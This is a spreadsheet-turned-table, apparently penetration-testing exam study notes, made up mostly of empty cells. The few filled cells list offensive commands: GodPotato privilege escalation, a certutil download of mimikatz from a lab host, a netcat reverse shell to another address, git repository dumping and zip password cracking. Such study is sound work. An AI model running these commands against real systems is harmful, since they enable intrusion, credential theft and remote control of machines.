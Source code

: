 # OSCP-B

|   Unnamed: 0 |   Unnamed: 1 |   Unnamed: 2 |   Unnamed: 3 | Unnamed: 4                                                                |   Unnamed: 5 |   Unnamed: 6 |   Unnamed: 7 |   Unnamed: 8 | Unnamed: 9                                    |
|-------------:|-------------:|-------------:|-------------:|:--------------------------------------------------------------------------|-------------:|-------------:|-------------:|-------------:|:----------------------------------------------|
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | Command                                                                   |          nan |          nan |          nan |          nan | Descripton                                    |
|          nan |          nan |          nan |          nan | GodPotato -cmd "cmd /c whoami"                                            |          nan |          nan |          nan |          nan | Using godpotato to create a shell             |
|          nan |          nan |          nan |          nan | certutil -urlcache -split -f http://192.168.45.163/mimikatz mimikatz      |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | .\god.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.199 4445" |          nan |          nan |          nan |          nan | Netcat to spawn a system shell via god        |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | Dumping the SAM                                                           |          nan |          nan |          nan |          nan | Descripton                                    |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | gitdumper                                                                 |          nan |          nan |          nan |          nan | Descripton                                    |
|          nan |          nan |          nan |          nan | python3 git_dumper.py http://192.168.111.144/ DIR                         |          nan |          nan |          nan |          nan | Get a git directory from the website          |
|          nan |          nan |          nan |          nan | git log                                                                   |          nan |          nan |          nan |          nan | See git history by git log                    |
|          nan |          nan |          nan |          nan | git show 44a055daf7a0cd777f28f444c0d29ddf3ff08c54                         |          nan |          nan |          nan |          nan | (In the git directory) Show a specific commit |
|          nan |          nan |          nan |          nan | nan                                                                       |          nan |          nan |          nan |          nan | nan                                           |
|          nan |          nan |          nan |          nan | fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt sitebackup1.zip    |          nan |          nan |          nan |          nan | Crack a zip password protected                |

